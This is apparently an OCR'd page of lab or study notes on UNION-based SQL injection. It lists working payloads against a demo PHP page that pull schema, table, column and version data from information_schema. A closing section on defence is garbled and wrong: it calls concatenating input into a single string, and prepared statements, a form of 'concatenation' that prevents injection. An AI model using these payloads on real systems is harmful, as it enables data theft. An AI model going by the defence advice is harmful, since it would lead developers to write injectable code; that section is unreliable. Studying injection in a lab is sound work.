 ```
Audi' UNION SELECT 1,2,table_name,4,5 FROM information_schema.tables #
Audi' UNION SELECT 1,2,3,table_schema,table_name FROM information_schema.tables; #
Audi' UNION SELECT 1,2,table_schema,table_name,column_name FROM
information_schema.columns; # -- "Golden" statement
Audi' UNION SELECT 1,2,3,name,size FROM session.Tires; #
Audi' UNION SELECT @@version,database(),3,name,size FROM session.Tires; #
```
- Change the column name to a different spot, in order to see how you can manipulate the output
    from the SQL query.

```
<URL>/uniondemo.php?Selection=2 UNION SELECT 1,column_name,3 FROM
information_schema.columns WHERE table_schema=database()
```
### IMPORTANT

```
& (ampersand) in a URL basically means adding/attaching more
variables/queries in the URL. It has special meaning in URI/URL strings. AND,
on the otherhand, will be interpreted as a combined query, not two GET
variables.
```
**SQL Injection Defense**

To defend application side, input fields must be sanitized/validated. This means that they
concatenate all statements into a single string, or escape certain characters.

A basic PHP example is utilizing the function _mysql_real_escape_string_ which replaces ' with a


safely escaped \' (single quote).

A SQL example is to use prepared statements such as SQLite’s _sqlite3_prepare()_ which takes what
is entered, then looks for a literal match (aka concatenation).

A single concatenated string will prevent injections such as 1 OR 1=1 modifying a scripted SQL
query.
